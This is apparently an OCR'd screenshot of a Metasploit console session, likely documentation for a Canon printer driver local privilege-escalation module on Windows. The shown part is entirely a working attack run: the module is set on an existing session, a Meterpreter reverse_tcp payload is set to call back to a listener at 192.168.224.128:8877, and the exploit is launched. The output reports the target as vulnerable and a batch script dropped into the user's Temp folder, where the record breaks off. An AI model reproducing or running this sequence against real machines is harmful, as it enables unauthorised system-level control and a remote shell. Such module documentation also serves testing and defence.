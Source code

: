 ```
msf exploit(windows/local/canon_driver_privesc) > set SESSION 1
SESSION => 1
msf exploit(windows/local/canon_driver_privesc) > show options

Module options (exploit/windows/local/canon_driver_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf exploit(windows/local/canon_driver_privesc) > set LPORT 8877
LPORT => 8877
msf exploit(windows/local/canon_driver_privesc) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/canon_driver_privesc) > show options

Module options (exploit/windows/local/canon_driver_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT     8877             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf exploit(windows/local/canon_driver_privesc) > exploit

[*] Started reverse TCP handler on 192.168.224.128:8877
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Canon language driver directory grants Users full permissions
[*] Dropping batch script to C:\Users\test\AppData\Local\Temp\ssSffWM.bat
```